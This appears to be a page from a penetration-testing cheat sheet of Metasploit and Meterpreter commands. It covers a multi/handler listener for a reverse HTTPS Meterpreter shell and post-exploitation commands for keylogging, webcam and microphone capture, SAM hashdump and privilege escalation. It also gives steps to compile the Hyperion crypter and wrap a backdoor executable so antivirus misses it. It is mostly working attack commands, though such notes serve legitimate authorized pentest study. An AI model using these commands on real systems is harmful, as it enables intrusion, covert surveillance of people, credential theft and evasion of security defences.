 Search for a file
search -f *pass*.txt

Upload a file
upload /usr/share/windows-binaries/nc.exe c:\\Users\\Offsec

Download a file
download c:\\Windows\\system32\\calc.exe /tmp/calc.exe

Invoke a command shell from Meterpreter Shell
shell

Exit the meterpreter shell
exit

Metasploit Exploit Multi Handler

multi/handler to accept an incoming reverse_https_meterpreter payload
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST $ip
set LPORT 443
exploit
[*] Started HTTPS reverse handler on https://$ip:443/
Building Your Own MSF Module

mkdir -p ~/.msf4/modules/exploits/linux/misc
cd ~/.msf4/modules/exploits/linux/misc
cp /usr/share/metasploitframework/modules/exploits/linux/misc/gld_postfix.rb ./crossfire.rb
nano crossfire.rb
Post Exploitation with Metasploit

download Download a file or directory
upload Upload a file or directory
portfwd Forward a local port to a remote service
route View and modify the routing table
keyscan_start Start capturing keystrokes
keyscan_stop Stop capturing keystrokes
screenshot Grab a screenshot of the interactive desktop
record_mic Record audio from the default microphone for X seconds
webcam_snap Take a snapshot from the specified webcam
getsystem Attempt to elevate your privilege to that of local system.
hashdump Dumps the contents of the SAM database
Meterpreter Post Exploitation Features

Create a Meterpreter background session
background
Bypassing Antivirus Software
Crypting Known Malware with Software Protectors

One such open source crypter, called Hyperion
cp /usr/share/windows-binaries/Hyperion-1.0.zip
unzip Hyperion-1.0.zip
cd Hyperion-1.0/
i686-w64-mingw32-g++ Src/Crypter/*.cpp -o hyperion.exe
cp -p /usr/lib/gcc/i686-w64-mingw32/5.3-win32/libgcc_s_sjlj-1.dll .
cp -p /usr/lib/gcc/i686-w64-mingw32/5.3-win32/libstdc++-6.dll .
wine hyperion.exe ../backdoor.exe ../crypted.exe
Using Custom/Uncommon Tools and Payloads
